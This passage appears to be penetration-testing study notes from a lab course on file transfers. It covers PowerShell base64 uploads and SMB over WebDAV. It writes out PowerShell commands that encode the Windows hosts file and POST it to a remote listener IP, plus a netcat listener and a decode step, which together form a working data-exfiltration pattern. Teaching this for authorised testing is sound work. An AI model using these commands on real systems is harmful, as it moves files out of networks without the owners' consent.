 #### <mark style="color:orange;">PowerShell Base64 Web Upload</mark>

Another way to use PowerShell and base64 encoded files for upload operations is by using `Invoke-WebRequest` or `Invoke-RestMethod` together with Netcat. We use Netcat to listen in on a port we specify and send the file as a `POST` request. Finally, we copy the output and use the base64 decode function to convert the base64 string into a file.

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
{% endcode %}

We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.

{% code fullWidth="true" %}
```sh
mrroboteLiot@htb[/htb]$ nc -lvnp 8000
```
{% endcode %}

{% code fullWidth="true" %}
```sh
mrroboteLiot@htb[/htb]$ echo <base64> | base64 -d -w 0 > hosts
```
{% endcode %}

***

### <mark style="color:blue;">SMB Uploads</mark>

Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks.

{% hint style="warning" %}
For more information on this, we can read the Microsoft post [Preventing SMB traffic from lateral connections and entering or leaving the network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a).
{% endhint %}

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. In the following Wireshark capture, we attempt to connect to the file share `testing3`, and because it didn't find anything with `SMB`, it uses `HTTP`.

![Image](https://academy.hackthebox.com/storage/modules/24/smb-webdav-wireshark.png)
